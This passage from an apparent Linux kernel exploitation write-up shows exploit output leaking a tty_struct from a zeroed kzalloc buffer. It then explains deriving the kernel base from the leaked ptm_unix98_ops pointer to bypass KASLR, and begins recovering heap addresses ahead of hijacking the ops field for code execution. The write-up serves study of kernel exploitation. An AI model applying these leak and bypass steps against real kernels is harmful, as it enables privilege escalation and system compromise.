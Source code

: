 ```c
```

Executing this on the kernel, we get the result we're looking for: our zero'd out `kzalloc` buffer suddenly has tons of values in it:

```bash
~$ /mnt/exploit
success, returned 0
success, returned 0
success, returned 0
Printing: 01  ... 15 bytes ... c0 e3 99 41 16 db 39 ff  ... 1 bytes ... 90 bd 41 16 db 39 ff  ... 1 bytes ... 51 08 92 ff ff ff ff 90 b9 b8 41 16 db 39 ff  ... 16 bytes ... 40 ac c3 41 16 db 39 ff 40 ac c3 41 16 db 39 ff 50 ac c3 41 16 db 39 ff 50 ac c3 41 16 db 39 ff  ... 16 bytes ... 70 ac c3 41 16 db 39 ff 70 ac c3 41 16 db 39 ff  ... 16 bytes ... 90 ac c3 41 16 db 39 ff 90 ac c3 41 16 db 39 ff  ... 16 bytes ... b0 ac c3 41 16 db 39 ff b0 ac c3 41 16 db 39 ff  ... 24 bytes ... d8 ac c3 41 16 db 39 ff d8 ac c3 41 16 db 39 ff  ... 16 bytes ... f8 ac c3 41 16 db 39 ff f8 ac c3 41 16 db 39 ff  ... 8 bytes ... bf  ... 8 bytes ... 03 1c 7f 15 04  ... 1 bytes ... 01  ... 1 bytes ... 11 13 1a  ... 1 bytes ... 12 0f 17 16  ... 4 bytes ... 96  ... 3 bytes ... 96  ... 46 bytes ... 70 74 6d 30  ... 60 bytes ... 01 08 01  ... 5 bytes ... 01  ... 56 bytes ... b0 c3 41 16 db 39 ff  ... 16 bytes ... f8 ad c3 41 16 db 39 ff f8 ad c3 41 16 db 39 ff  ... 8 bytes ... 10 ae c3 41 16 db 39 ff 10 ae c3 41 16 db 39 ff e0 ff ff ff 0f  ... 3 bytes ... 28 ae c3 41 16 db 39 ff 28 ae c3 41 16 db 39 ff  ... 1 bytes ... 96 40 91 ff ff ff ff  ... 1 bytes ... d0 18 80 6f 07 55 ff c0 8b be 41 16 db 39 ff  ... 16 bytes ... 90 59 05 41 16 db 39 ff 90 59 05 41 16 db 39 ff e0 ff ff ff 0f  ... 3 bytes ... 78 ae c3 41 16 db 39 ff 78 ae c3 41 16 db 39 ff e0 b3 40 91 ff ff ff ff  ..
```

### Obtaining a kaslr bypass

Knowing that this is a `tty_struct`, it's also important to note that some values (particularly the `*ops` field) contain pointers. This means that, since we are able to read kernel memory, we can use a field to act as a leak, and thus bypass `kaslr` by calculating the base kernel address from such leak.

In particular, at `buf+32`, a pointer to [ptm_unix98_ops](https://elixir.bootlin.com/linux/v6.6.16/source/drivers/tty/pty.c#L745) (`0xffffffff92085100`) is present. This is very important not only because we're able to obtain a kernel leak, but also because we're going to be modifying this field later on for code execution.

The start of the kernel is at `startup_64`.

```bash
~# cat /proc/kallsyms | grep -i startup_64
ffffffff90e00000 T startup_64
```

Performing `0xffffffff92085100 - 0xffffffff90e00000` gives us `0x1285100`, meaning that to obtain the base address for the kernel, we subtract this leak by that value.

### Obtaining a heap address

So that's all good, but we can also go a bit further. Knowing that, in this run, the buffer is located at kernel address `0xff36b934c1c32c00`, we can see the following addresses in the buffer:

```bash
... 40 2c c3 c1 34 b9 36 ff ...
... 50 2c c3 c1 34 b9 36 ff ...
... 70 2c c3 c1 34 b9 36 ff ...
.....
```
